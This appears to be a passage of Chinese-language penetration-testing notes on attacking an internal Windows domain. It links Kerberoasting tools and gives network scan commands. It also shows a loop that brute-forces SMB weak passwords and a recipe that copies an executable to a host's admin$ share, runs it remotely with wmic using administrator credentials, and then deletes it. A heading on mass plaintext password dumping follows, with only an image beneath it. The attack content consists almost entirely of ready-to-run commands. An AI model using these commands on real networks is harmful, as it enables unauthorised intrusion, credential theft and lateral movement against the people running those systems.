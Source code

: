 powershell:

https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1

vbs:

https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs

Rubeus:

https://github.com/GhostPack/Rubeus



### 高效的进行内网存活探测及敏感资产搜集分析

[nbtscan](http://www.unixwiz.net/tools/nbtscan-1.0.35.exe):`nbtscan 10.10.10.1/16`

[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec):`crackmapexec -t 25 100.100.1.1/16`

对之前收集的spn信息提取机器名，批量测试

`grep 'CN=' mac.txt|awk -F ',' {'print $1'}|awk -F '=' {'print $2'} > host.txt`

`for /f "delims="%i in (host.txt) do @ping -w 1 -n 1 %i | findstr /c:".xxxx.com |" >> result.txt`



`PTscan.exe -h 10.6.6.6 -p 80,81 .... -m 60 -t 6`



## 批量smb弱口令探测

```
for /f "delims=" %i in (all.txt) do SysLog.exe -h %i user.txt pwd.txt >> sys.logs
```



## smb利用

如果知道账号密码且135端口正常通信：

```
net use \\x.x.x.x\admin$ /user:"administrator" "password"
copy SysDebug.exe \\x.x.x.x\admin$\debug
wmic /NODE:"x.x.x.x" /user:"administrator" /password:"password" PROCESS call create "c:\windows\debug\SysDebug.exe"
del \\x.x.x.x\admin$\debug\SysDebug.exe /F
net use \\x.x.x.x\admin$ /del

```



## 内网批量抓取明文密码

![image-20201117211422318](https://raw.githubusercontent.com/Explorersss/photo/master/20201117211422.png)

